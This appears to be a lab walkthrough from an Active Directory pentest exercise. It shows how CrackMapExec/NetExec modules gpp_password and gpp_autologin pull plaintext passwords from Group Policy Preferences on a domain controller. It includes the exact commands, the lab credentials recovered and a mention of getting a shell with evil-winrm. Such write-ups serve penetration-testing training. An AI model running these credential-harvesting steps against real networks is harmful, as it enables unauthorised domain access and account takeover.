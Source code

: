 ## Searching for Accounts in Group Policy Objects (GPOs) 

- Once we have control of an account, there are some mandatory checks we need to perform. 
> Searching for credentials written in the **Group Policy Objects (GPO) can pay off, especially in an old environment (Windows server 2003 / 2008) since every domain user can read the GPOs.** 

- CrackMapExec has two modules that will search all the GPOs and find juicy credentials. 
> We can use the modules **gpp_password and gpp_autologin.** 
>
> The first module, **gpp_password**, retrieves the plaintext password and other information for accounts pushed through **Group Policy Preferences (GPP).**  
> We can read more about this attack in this blog post [Finding Passwords in SYSVOL & Exploiting Group Policy Preferences](https://adsecurity.org/?p=2288). 
> The second module, **gpp_autologin**, searches the **Domain Controller for registry.xml files to find autologin information** and returns the username and clear text password if present. 

10.129.181.152

### Password GPP 

`$ netexec smb 10.129.181.152 -u grace -p Inlanefreight01! -M gpp_password`


![Valid Account Info Gathering](/Valid-Account-Information-Gathering/Searching-for-Accounts-in-Group-Policy-Objects/images/gpp-password.png) 


- Info
> SMB Shares:
>> CertEnroll - READ
>> IPC$ - READ
>> IT - READ, WRITE
>> linux01 - READ, WRITE
>> NETLOGON - READ
>> SYSVOL - READ
>> Users - READ

- username: inlanefreight.htb\engels
- Password: Inlanefreight1998! 
- username: inlanefreight.htb\diana
- Password: HackingGPPlike4Pro 


### AutoLogin GPP 

`$ crackmapexec smb 10.129.181.151 -u grace -p Inlanefreight01! -M gpp_autologin`

![Valid Account Info Gathering](/Valid-Account-Information-Gathering/Searching-for-Accounts-in-Group-Policy-Objects/images/gpp-autologin.png) 

- Info
> Username: kiosko
> Password: SimplePassword123! 

- In our case, we found two accounts with two different passwords. Let's check if these accounts are still valid: 

- Checking with netexec the passwords for engels, diana, and kiosko are all valid for smb access. 
- Diana's account also has access to winrm so we can use evil-winrm to get a shell. 

![Valid Account Info Gathering](/Valid-Account-Information-Gathering/Searching-for-Accounts-in-Group-Policy-Objects/images/valid.png) 

![Valid Account Info Gathering](/Valid-Account-Information-Gathering/Searching-for-Accounts-in-Group-Policy-Objects/images/winrm.png) 
